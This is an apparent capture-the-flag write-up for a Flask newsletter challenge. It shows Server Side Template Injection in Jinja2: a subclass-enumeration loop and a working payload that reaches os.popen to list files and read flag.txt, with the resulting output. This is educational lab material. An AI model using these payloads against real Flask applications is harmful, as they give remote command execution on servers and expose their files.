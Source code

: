 # [__Stealthy Jinjas 🐱‍👤__](#)

## Description: 

* It's seems like a pretty simple site to hack into, but is it?

## Objective: 

* The data tha the user inputs is concanated directly to the jinja2 template. The user can list all the files using:
```
{{"".__class__.__mro__[1].__subclasses__()[185].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```
and they can see the `flag.txt` inside. Then they can read it by injecting:
```
{{"".__class__.__mro__[1].__subclasses__()[185].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```

## Flag: 🏁
* `INSSEC{n3Ver_trust_th3_us3rs_1nput!!}`

### Difficulty:
* Easy 

## Writeup
When we subscribe to the web app's newsletter we can see that our email is shown in the html of the page. We can assume that the string is concanated to the html. If we type `{{7*7}}` as an email we get as an answer `49`. This means that we can perform an injection attack on the web app which is called `SSTI (Server Side Template Injection)`. The web app uses Flask as its framework which uses Jinja 2 as a template engine. 

SSTI material:

[1] https://blog.nvisium.com/p263

[2] https://programmer.group/simple-understanding-of-flask-jinja2-server-side-template-injection-ssti.html

[3] https://0x00sec.org/t/explaining-server-side-template-injections/16297

[4] https://bowneconsultingcontent.com/pub/EH/proj/ED105.htm

We search for the `warnings` subclass:
```
{% for i in range(200) %} 
{% set x = ''.__class__.__mro__[1].__subclasses__()[i] %} 
{% if "warning" in x.__name__ %}
{{ i }}
{{ x.__name__ }}
{% endif %}
{% endfor %}
```
output:
```
Thanks! We will be sure to send our news to : 185 catch_warnings
```
Execute `ls` command:
```
{{"".__class__.__mro__[1].__subclasses__()[185].__init__.__globals__["__builtins__"]["__import__"]("os").popen("ls *").read()}}
```
output:
```
Thanks! We will be sure to send our news to : app.py flag.txt __pycache__: app.cpython-38.pyc templates: index.html
```
Read `flag.txt` file using `cat`:
```
{{"".__class__.__mro__[1].__subclasses__()[185].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
```
output:
```
Thanks! We will be sure to send our news to : INSSEC{n3Ver_trust_th3_us3rs_1nput!!}
```
Nice! The flag is: `INSSEC{n3Ver_trust_th3_us3rs_1nput!!}`